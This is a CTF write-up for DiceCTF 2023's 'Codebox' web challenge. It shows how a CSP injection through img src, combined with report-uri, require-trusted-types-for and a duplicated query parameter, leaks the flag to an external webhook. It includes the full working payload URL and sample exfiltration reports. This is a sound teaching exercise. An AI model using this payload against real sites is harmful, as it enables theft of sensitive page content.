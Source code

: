 ```yaml
---
Title: Codebox - DiceCTF 2023
Date: 2023-02-08T00:00:00+05:30
Tags: [web, ctf, writeup, csp, dicectf23-writeups, report-uri, require-trusted-types-for]
Categories: [dicectf23-writeups,All Writeups]
Authors: [Rohit]
---
```


#### tl;dr

  - Use img src to inject csp
  - Use `report-uri your-domain` to get csp violation reports
  - Use `require-trusted-types-for 'script'` to get violation when `innerHTML` is set
  - Use `code=&code<payload>` to make code undefined in front end

Final Payload: `https://codebox.mc.ax/?code=&code=<img+src="*;+require-trusted-types-for+'script'+;+report-uri+https://your.domain.com/"+>`


<!--more-->

## Description

strellic makes csp challs, maybe i should try one sometime

- **Author** : EhhThing
- **Category** : Web
- **Points** : 220
- **Solves** : 30

## Solution

### Understanding the challenge

In this challenge, we had a web page where we could insert any HTML. But there is [csp](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) in the web page 

```js
const CSP = [
        "default-src 'none'",
        "style-src 'unsafe-inline'",
        "script-src 'unsafe-inline'",
    ];
```

We can send HTML as a GET parameter `code` in the url.
In the [backend](files/web.js) they will process the html and find the image tags

``` js
const fastify = require('fastify')();
const HTMLParser = require('node-html-parser');

const box = require('fs').readFileSync('box.html', 'utf-8');

fastify.get('/', (req, res) => {
    const code = req.query.code;
    const images = [];

    if (code) {
        const parsed = HTMLParser.parse(code);
        for (let img of parsed.getElementsByTagName('img')) {
            let src = img.getAttribute('src');
            if (src) {
                images.push(src);
            }
        }
    }
```
then for every image tag we add, they add the source of that to csp `img-src`

```
if (images.length) {
        csp.push(`img-src ${images.join(' ')}`);
    }
```

### CSP Injection

So there are no checks done in img src so we can add a `;` and add as much as csp attributes as we want. For example

`https://codebox.mc.ax/?code=<img src="*; script-src 'unsafe-inline'">`

This will add `script-src 'unsafe-inline'` to csp. So we can add any csp attribute we want.

![csp-injection](images/csp-injection.png)

But actually, the HTML is added to the webpage using [frontend](files/box.html)

```js
const code = new URL(window.location.href).searchParams.get('code');
    if (code) {
        const frame = document.createElement('iframe');
        frame.srcdoc = code;
        frame.sandbox = '';
        frame.width = '100%';
        document.getElementById('content').appendChild(frame);
        document.getElementById('code').value = code;
    }

    const flag = localStorage.getItem('flag') ?? "flag{test_flag}";
    document.getElementById('flag').innerHTML = `<h1>${flag}</h1>`;
```

### Using the csp injection

So our HTML is added to an [sandboxed](https://html.com/attributes/iframe-sandbox/) iframe. And none of the attributes is given, which means we can do practically nothing. We need the `allow-scripts` attribute in [sandbox](https://html.com/attributes/iframe-sandbox/) to execute scripts inside the iframe.

Now where we have injection is in the csp so we will take a look at csp attributes that we can set. We get a list of all attributes and compatible values from [here](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP#browser_compatibility)

So there are two interesting attributes

[report-uri](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/report-uri)
[require-trusted-types-for](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/require-trusted-types-for)

So what this does is that, whenever there is a violation of csp, the browser will send a report to the URL specified in report-uri. So we can use this.

We will get a report like this

```json
{
  "csp-report": {
    "document-uri": "https://codebox.mc.ax/?code=%3Cimg+src%3D%22*%3B+report-uri+https%3A%2F%2Fwebhook.site%2F73cb229b-f15a-4d83-ae54-cee42096f621%3Bframe-src+%27none%27%22%3E",
    "referrer": "https://codebox.mc.ax/?code=%3Cimg+src%3D%22*%3B+report-uri+%27https%3A%2F%2Fwebhook.site%2F73cb229b-f15a-4d83-ae54-cee42096f621%27%3Bframe-src+%27none%27%22%3E",
    "violated-directive": "font-src",
    "effective-directive": "font-src",
    "original-policy": "default-src 'none'; style-src 'unsafe-inline'; script-src 'unsafe-inline'; img-src *; report-uri https://webhook.site/73cb229b-f15a-4d83-ae54-cee42096f621;frame-src 'none'",
    "disposition": "enforce",
    "blocked-uri": "https://codebox.mc.ax/DMSans-Regular.ttf",
    "status-code": 200,
    "script-sample": ""
  }
}
```

**But how will we include the flag in it?**

That's where the other attribute comes in. `require-trusted-types-for` directive instructs user agents to control the data passed to DOM XSS sink functions, like the `Element.innerHTML` setter. Since we don't send and `trusted-types` header, whenever we try to set the innerHTML of any element the csp will block it and it will raise an error. That error will be sent to the report uri.

But when we set that csp `require-trusted-types-for 'script'`, this is  the error we get

![error](images/error.png)

We will get a report like

```json
{
  "csp-report": {
    "document-uri": "https://codebox.mc.ax/?code=%3Cimg+src%3D%22*%3B+report-uri+https%3A%2F%2Fwebhook.site%2F73cb229b-f15a-4d83-ae54-cee42096f621%3Brequire-trusted-types-for+%27script%27%22%3E",
    "referrer": "https://codebox.mc.ax/?code=%3Cimg+src%3D%22*%3B+report-uri+https%3A%2F%2Fwebhook.site%2F73cb229b-f15a-4d83-ae54-cee42096f621%3Bframe-src+%27none%27%22%3E",
    "violated-directive": "require-trusted-types-for",
    "effective-directive": "require-trusted-types-for",
    "original-policy": "default-src 'none'; style-src 'unsafe-inline'; script-src 'unsafe-inline'; img-src *; report-uri https://webhook.site/73cb229b-f15a-4d83-ae54-cee42096f621;require-trusted-types-for 'script'",
    "disposition": "enforce",
    "blocked-uri": "trusted-types-sink",
    "line-number": 50,
    "column-number": 22,
    "source-file": "https://codebox.mc.ax/",
    "status-code": 200,
    "script-sample": "HTMLIFrameElement srcdoc|<img src=\"*; report-uri https://webhook."
  }
}
```

This is because the first point where we do such an operation is in

```js
frame.srcdoc = code;
```

It will report that part of the code only. To bypass that the code needs to be `undefined`


### Fooling the browser

So we can't obviously send no `code` parameter and get the flag. But we need to take into account the interoperability of the backend and frontend. The backend is what is setting the [csp](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP), but the front end is checking the code. They are accessing the `code` in frontend using

```js
const code = new URL(window.location.href).searchParams.get('code');
```

This will take the first parameter in the url. But in node if we sent two parameters they will join both using a ',` so we will still get [csp](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) injection.

So sending a URL like this

`https://codebox.mc.ax/?code=&code=<img+src="*;+require-trusted-types-for+'script'+;+report-uri+https://your.domain.com/"+>`

will give a report

```json
{
  "csp-report": {
    "document-uri": "https://codebox.mc.ax/?code=&code=%3Cimg+src%3D%22*%3B+report-uri+https%3A%2F%2Fwebhook.site%2F73cb229b-f15a-4d83-ae54-cee42096f621%3Brequire-trusted-types-for+%27script%27%22%3E",
    "referrer": "",
    "violated-directive": "require-trusted-types-for",
    "effective-directive": "require-trusted-types-for",
    "original-policy": "default-src 'none'; style-src 'unsafe-inline'; script-src 'unsafe-inline'; img-src *; report-uri https://webhook.site/73cb229b-f15a-4d83-ae54-cee42096f621;require-trusted-types-for 'script'",
    "disposition": "enforce",
    "blocked-uri": "trusted-types-sink",
    "line-number": 58,
    "column-number": 47,
    "source-file": "https://codebox.mc.ax/",
    "status-code": 200,
    "script-sample": "Element innerHTML|<h1>flag{test_flag}</h1>"
  }
}
```

Sending this to admin will get you the correct flag


**Flag**: `dice{i_als0_wr1te_csp_bypasses}`
